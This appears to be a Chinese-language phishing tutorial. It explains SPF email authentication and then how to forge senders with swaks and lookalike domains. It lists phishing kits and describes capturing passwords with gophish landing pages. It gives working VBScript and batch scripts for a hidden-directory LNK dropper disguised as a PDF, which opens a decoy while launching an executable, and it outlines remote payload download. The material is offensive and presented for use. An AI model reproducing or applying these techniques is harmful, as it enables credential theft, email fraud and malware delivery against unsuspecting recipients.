


# 钓鱼专栏

## 邮件发送的原理与SPF 检测

### SPF

发件人策略框架（Sender Policy Framework） 电子邮件认证机制当网易企业邮箱的邮件服务器收到自称发件人是[xiaoyi@xxx.com](mailto:xiaoyi@xxx.com)的邮件，那这封邮件是真的从xxx.com的邮件服务发过来的，还是伪造的呢？这时便可通过查询xxx.com的SPF记录进行判断。

检测xxx.com邮件服务器是否开启SPF.
若未对您的域名添加 SPF 解析记录，则 **黑客可以仿冒以该域名为后缀的邮箱，来发送垃圾或诈骗邮件** 。

#### SPF 记录的语法

一条 SPF 记录定义了一个或者多个 mechanism，而 mechanism 则定义了哪些 IP 是允许的，哪些 IP 是拒绝的。这些 mechanism 包括以下几类：

``all | ip4 | ip6 | a | mx | ptr | exists | include`` 每个 mechanism 可以有四种前缀：

"+"Pass（通过）
"-" Fail（拒绝）
"~" Soft Fail（软拒绝）
"?" Neutral（中立）

```

dig -t txt qq.com //linux
nslookup -type=txt qq.com //winodws

"v=spfl -all   拒绝所有，表示这个域名不会发出邮件"
"v=spfl +all   接受所有"
"v=spf1 ip4:192.168.0.1/24 -all  (只允许这个范围内的ip发送邮件)"
"v=spfl mx -all "(允许当前域名的mx记录对应的ip地址发邮件)
"v=spf1 mx mx：test.example.com -all" (允许当前域名和test.example.com 的mx记录对应的ip地址发邮件)
"v=spf1 a mx ip4: [ip] -all " (允许当前域名的a记录和mx记录和一个指定ip地址发送邮件)
"v=spfl include：example.com -all"（采用和example.com 一样的spf记录）
```

#### 邮箱有SFP的攻击方式：

三方中转伪造发信人(修改字眼)
伪造发件人 system@notice.aIiyun.com.cn (I 是大写的 i  而不是 小写的L)

自建中转伪造发信人（需要自己注册邮箱来实现）
注册一个邮箱开启pop3 转发

- 使用网上一直的邮箱一同
  - 将要发送的邮件导出为EML 模版
  - 修改内置的发件人内容时间等
    swaks --to 收件人 -f 发件人 --data 1.eml --server  smtp.163.com -p  25 -au 账号 -ap 授权码
  - 在收件方会显示是代发的邮件


自建伪造高仿邮箱系统
https://blog.csdn.net/y995zq/article/details/122963484

### swaks 工具

基本使用：

```
swaks -t qwpcrqskfb@iubridge.com -f eiraaa@eiraaa.com --body 'this is a test email' --header 'Subject:TEST' --ehlo eiraaa.com
--to <接收方的地址>

--from <要显示的发件人邮箱>

--ehlo <伪造的邮件ehlo头>

--body <邮件正文>

--header <邮件头信息，subject为邮件标题>

--data <源邮件>  #可以使用txt格式的邮件原文进行发送邮件
```

**swaks其实还可以进行更高级的邮件伪造，几乎可以伪造邮件中的每一个参数**

下图为kali 虚拟机上swaks 发给我qq邮箱的邮件，qq邮箱有sfp 所以被识别为垃圾邮件


### 钓鱼工具

下面列出一些较为经典高效的网络钓鱼工具,并展示以下gophish 工具的部分功能

- gophish
- mip22
- Tycoon 2FA
- setoolkit
- LoginFish(登录页面伪造)
- nexphisher

#### gophish 工具使用

网上一堆教程，可以参考下下面的教程

https://blog.csdn.net/qq_42939527/article/details/107485116

https://forum.butian.net/share/351



具体设置不多说，网上一堆教程，主要看看几个注意的配置

- user&Groups: 设置要钓鱼的对象，邮箱，姓名等，主要就是设置发送的邮箱
- Email Templates  如其名，可以设置邮件要发送的内容，这里可以import  eml文件
- landingpages 设置钓鱼页面，支持import site 直接复制url的页面
- sending profiles 设置发送邮件用的邮箱配置

实践例子：


点如里面的链接可以跳转到设置好的页面：


如果有登录框输入密码的话，会被抓取到；也可以添加附件诱导下载。

### lnk 文件上线

lnk文件是快捷方式文件，将真正的恶意文件(通常经过免杀处理的) 放在一些隐藏路径下，然后通过修改快捷方式连接的文件路径达到上线的目的

#### 通过隐藏目录的方式执行lnk

创建一个隐藏目录，将要用到的木马exe文件（这个例子中用windows自带的计算器程序来代替）和pdf文件都放在这个目录下，同时写一个bat文件来执行这两个文件

将pdf创建lnk文件放在最外层，改为系统图标（__monk文件路径是隐藏的）


将lnk文件执行路径改为 %windir%\system32\cmd.exe /c  .\\__monk\__MONK\star.vbe
这里用 %windir%\system32\cmd.exe  去触发是为了使用 `.\__monk\__MONK\star.vbe` 这个相对路径，在触发的脚本中有识别当前路径和执行

采用嵌套脚本是想规避弹框

star.vbe

```
' 创建 FileSystemObject 实例
Dim fso, scriptPath, batPath, ws

Set fso = CreateObject("Scripting.FileSystemObject")

' 获取当前脚本的完整路径
scriptPath = fso.GetAbsolutePathName(WScript.ScriptFullName)

' 获取当前脚本的目录
scriptDir = fso.GetParentFolderName(scriptPath)

' 构建要运行的 bat 文件的路径
batPath = fso.BuildPath(scriptDir, "star.bat")

' 创建 WScript.Shell 实例
Set ws = WScript.CreateObject("WScript.Shell")

' 运行 bat 文件
ws.Run """" & batPath & """ /start", 0
```

star.bat

```
@echo off

:: 获取当前批处理脚本的路径
set "scriptDir=%~dp0"

:: 移除结尾的反斜杠
set "scriptDir=%scriptDir:~0,-1%"

:: 打开路径下的 Bagel.pdf
start "" "%scriptDir%\Bagel.pdf"

:: 打开计算器
start calc.exe

:: 退出脚本
exit


```

用010editor 打开lnk文件，注意，是打开lnk文件而不是打开cmd.exe

找到 ICON_LOCATION

修改为 .\\\__monk\\__MONK\Bagel.pdf 


修改后效果：


再使用010editor 向其中插入全0数据增加大小：


在没有戒备的情况下很容易就觉得这是一个pdf并双击，执行会打开真实的pdf和指定的exe文件。

#### 通过下载的方式执行真正的payload

主要的做法就是lnk文件打开的时候调用的是cmd或powershell 去远程下载payload执行并且远程下载真正的pdf并打开，还没实际测试，后续补充
